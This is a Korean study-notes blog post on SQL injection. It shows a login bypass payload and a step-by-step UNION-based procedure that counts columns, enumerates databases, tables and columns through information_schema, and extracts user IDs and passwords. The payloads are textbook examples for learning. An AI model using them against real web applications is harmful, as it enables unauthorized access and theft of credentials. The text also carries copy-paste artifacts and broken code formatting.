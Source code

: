 ```yaml
---
title: "Week 6 - Union Injection"
date: 2025-05-17
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# 1. SQL Injection: 인증 우회 및 데이터 추출

SQL Injection은 웹 애플리케이션에서 사용자 입력값이 안전하게 처리되지 않을 때 발생하는 취약점입니다. 이 포스트에서는 인증 우회를 포함한 SQL Injection을 통해 **데이터를 추출하는 절차**를 정리합니다.

## 1.1 SQL Injection의 목적

보통 SQL Injection은 다음 두 가지 목적으로 활용됩니다:

- **인증 우회**: 로그인 등의 인증 시스템을 무력화
- **데이터 추출**: 데이터베이스에 저장된 민감한 정보를 외부로 노출

---

# 2. 인증 우회 예시

로그인 로직이 다음과 같이 구현되어 있다고 가정합니다:

```sql
SELECT * FROM user WHERE id = 'doldol' AND pass = '';
이때 다음과 같은 입력을 하면 항상 참이 되어 인증이 우회됩니다:

sql
복사
편집
' OR '1'='1
최종 쿼리:

sql
복사
편집
SELECT * FROM user WHERE id = 'doldol' AND pass = '' OR '1'='1';
# 3. 데이터 추출이 가능한 조건
데이터를 추출하기 위해선 다음 두 조건 중 하나를 만족해야 합니다:

조건	예시
웹페이지에 데이터가 출력된다	게시판, 검색결과 등
웹페이지에 데이터가 출력되지 않는다	로그인, 아이디 중복체크 등

이번 포스트에선 화면에 데이터가 출력되는 경우를 중심으로 설명합니다.

# 4. UNION을 이용한 SQL Injection
UNION 키워드를 이용하면 두 개 이상의 SELECT 결과를 합쳐서 출력할 수 있습니다.

예시:

sql
복사
편집
SELECT pass FROM member
UNION
SELECT id FROM member;
또는:

sql
복사
편집
SELECT id, pass FROM member
UNION
SELECT 'normaltic', 'test';
❗ 주의: UNION을 사용할 때는 앞뒤 SELECT문의 컬럼 개수가 같아야 합니다.

# 5. SQL Injection 단계별 분석
1단계. Injection 포인트 확인
사용자 입력값이 SQL 쿼리에 반영되고 있는지 확인

페이지 출력 결과를 통해 추측

2단계. 컬럼 개수 찾기
sql
복사
편집
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
...
오류가 발생하지 않는 최대 인덱스를 통해 컬럼 수 추정 (예: 4개)

3단계. 출력 컬럼 위치 찾기
sql
복사
편집
' UNION SELECT 1,2,3,4 #
어느 숫자가 실제 웹페이지에 출력되는지 확인

출력되는 위치에 민감 정보 삽입 가능

4단계. 현재 DB 이름 확인
sql
복사
편집
' UNION SELECT 1, database(), 3, 4 #
5단계. 테이블 이름 확인
sql
복사
편집
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'DB이름' #
6단계. 컬럼 이름 확인
sql
복사
편집
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = '테이블이름' #
7단계. 데이터 추출
sql
복사
편집
' UNION SELECT 1, id, pass, 4 FROM member #
